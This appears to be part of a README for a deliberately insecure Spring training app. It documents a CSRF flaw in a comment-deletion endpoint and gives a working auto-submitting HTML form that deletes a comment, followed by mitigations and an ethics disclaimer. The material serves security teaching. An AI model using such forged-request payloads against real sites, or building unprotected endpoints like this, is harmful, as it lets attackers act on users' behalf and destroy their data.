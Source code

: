 * **File:** `src/main/java/com/example/catapp/controllers/CommentController.java`  
* **Method:** `public String deleteComment(@RequestParam int commentId, RedirectAttributes redirectAttributes)`

#### **Vulnerable Code**

java  
Copy code  
`// No CSRF token verification`  
`commentRepository.deleteById(commentId);`

#### **How to Exploit**

**Craft a Malicious HTML Page**  
html  
Copy code  
`<form action="http://localhost:8080/deleteComment" method="post">`  
    `<input type="hidden" name="commentId" value="1" />`  
`</form>`  
`<script>`  
    `document.forms[0].submit();`  
`</script>`

1.   
2. **Host the Page and Have an Authenticated User Visit It**  
   * The comment with ID `1` will be deleted without the user's consent.

#### **Impact**

* Unauthorized actions performed on behalf of users.  
* Data loss or unwanted state changes.

#### **Mitigation**

* Implement CSRF protection using tokens.  
* Use frameworks or libraries that handle CSRF automatically.

---

## **Important Notes**

* **Educational Purpose Only**  
  * This application is intentionally insecure and should only be used in controlled environments.  
  * Do not deploy this application in a production setting or expose it to untrusted networks.  
* **Ethical Use**  
  * Use this application responsibly to learn about security vulnerabilities.  
  * Do not use this knowledge for malicious purposes.

---

## **Learning Resources**

* **OWASP Top 10**  
  * OWASP Top 10 Project  
* **Secure Coding Practices**  
  * OWASP Secure Coding Practices  
* **Spring Security**  
  * [Spring Security Reference](https://docs.spring.io/spring-security/site/docs/current/reference/html5/)  
* **Thymeleaf Security**  
  * Thymeleaf Documentation  
* **CSRF Protection**  
  * Understanding CSRF Attacks

---